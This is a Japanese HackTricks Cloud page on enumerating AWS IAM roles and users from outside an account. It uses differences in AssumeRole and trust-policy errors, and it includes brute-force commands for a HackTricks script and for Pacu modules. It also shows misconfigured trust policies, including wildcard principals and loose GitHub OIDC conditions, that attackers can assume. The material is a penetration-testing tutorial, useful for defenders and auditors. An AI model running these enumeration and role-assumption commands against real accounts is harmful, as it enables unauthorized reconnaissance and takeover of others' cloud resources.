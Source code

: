 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリ。

</details>
{% endhint %}

## アカウント内のロールとユーザー名を列挙する

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**この技術はもう機能しません**。ロールが存在するかどうかに関わらず、常にこのエラーが発生します：

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

**これをテストするには**次を実行します：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

必要な権限なしで**ロールを引き受けようとすると**、AWSエラーメッセージがトリガーされます。例えば、権限がない場合、AWSは次のように返すかもしれません：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このメッセージはロールの存在を確認しますが、ロールの引き受けポリシーがあなたの引き受けを許可していないことを示しています。対照的に、**存在しないロールを引き受けようとすると異なるエラーが発生します**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
興味深いことに、この**既存のロールと存在しないロールを識別する方法**は、異なるAWSアカウント間でも適用可能です。有効なAWSアカウントIDとターゲットワードリストがあれば、アカウント内のロールを制限なく列挙することができます。

この問題を悪用して[潜在的なプリンシパルを列挙するスクリプト](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)を使用できます。

### Trust Policies: Brute-Force Cross Account roles and users

**IAMロールの信頼ポリシーを設定または更新することは、そのロールを引き受けて一時的な資格情報を取得することを許可されるAWSリソースまたはサービスを定義することを含みます**。ポリシーで指定されたリソースが**存在する場合**、信頼ポリシーは**正常に保存されます**。しかし、リソースが**存在しない場合**、**エラーが生成され**、無効なプリンシパルが提供されたことを示します。

{% hint style="warning" %}
そのリソースにはクロスアカウントロールまたはユーザーを指定できることに注意してください:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

これはポリシーの例です:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

これは、**存在しないロール**を使用した場合に見つかる**エラー**です。ロールが**存在**する場合、ポリシーはエラーなしで**保存**されます。（エラーは更新時のものですが、作成時にも機能します）

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
このプロセスを自動化するには [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) を使用できます。

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

または [Pacu](https://github.com/RhinoSecurityLabs/pacu) を使用する場合：

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* この例で使用されている `admin` ロールは、pacu が必要なポリシーを作成するために**偽装されるアカウント内のロール**です。

### Privesc

ロールが誤って設定され、誰でもそれを引き受けることができる場合：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
攻撃者はそれを仮定するだけかもしれません。

## Third Party OIDC Federation

**Github Actions workflow**が**AWS**内の**role**にアクセスしているのを読み取ることができたと想像してください。\
この信頼は、次の**trust policy**を持つロールへのアクセスを与えるかもしれません:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**条件が少なすぎる**ため、信用しない方が良いでしょう。\
これは、前述のロールが**Github Actionsの誰でも**引き受けることができるからです！条件には、組織名、リポジトリ名、環境、ブランチなども指定する必要があります。

もう一つの潜在的な誤設定は、次のような**条件を追加する**ことです:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**コロン** (:) の前に **ワイルドカード** (\*) があることに注意してください。**org\_name1** のような組織を作成し、Github Action から **ロールを引き受ける** ことができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS ハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP ハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks をサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop) をチェック！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 で [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローしてください。
* **PR を提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github リポジトリ。

</details>
{% endhint %}
